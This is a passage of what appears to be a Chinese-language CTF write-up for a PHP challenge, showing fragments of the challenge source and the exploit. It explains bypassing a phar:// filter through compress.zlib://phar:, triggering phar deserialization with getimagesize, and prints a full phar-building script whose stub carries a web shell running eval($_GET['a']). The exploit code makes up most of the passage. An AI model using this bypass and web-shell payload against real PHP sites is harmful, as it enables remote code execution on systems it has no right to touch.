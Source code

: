 ```php
} 
else if ($mode == "show"){ 
    show(check_session()); 
} 
else if ($mode == "check"){ 
    check(check_session()); 
} 
else if($mode == "move"){ 
    move($_GET['source'],$_GET['dest']); 
} 
else{      
    highlight_file(__FILE__);     
} 

include("./comments.html"); 
```

重点放在upload和check函数上，可以直接从过滤中看到

```php
if(preg_match('/^(ftp|php|zlib|data|glob|phar|ssh2|rar|ogg|expect)(.|\\s)*|(.|\\s)*(file)(.|\\s)*/i',$_GET['c']))
```

check中禁用了一些php的伪协议，尤其是`phar`，但是这里可以通过`compress.zlib://phar:`方式绕过

然后后面通过`@getimagesize($file_path)`就可以触发phar反序列化

phar文件自然是通过`upload`方式传上去的

```php
if(preg_match('/^(http|https).*/i', $_GET['url'])){ 
    $data = file_get_contents($_GET["url"] . "/avatar.gif");                         
    if (substr($data, 0, 6) !== "GIF89a"){ 
        die("Fuck off"); 
    } 
    file_put_contents($path . "/avatar.gif", $data); 
```

可以看到是只要文件头以`GIF89a`开头，然后就可以从远程服务器中下载图片到自己的data沙箱中

于是构造phar文件（文件路径在cookie中可以看到

```php
<?php
class K0rz3n_secret_flag {
	function __construct(){
		$this->file_path = '/var/www/html/show_me_shell/data/8296a7decb7606bc224d78d13afaf8df/avatar.gif';
	} 
}
@unlink("1.phar");
$phar = new Phar("1.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub('GIF89a<?php echo 1;eval($_GET["a"]);?><?php __HALT_COMPILER(); ?>'); //设置stub
$o = new K0rz3n_secret_flag();
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```
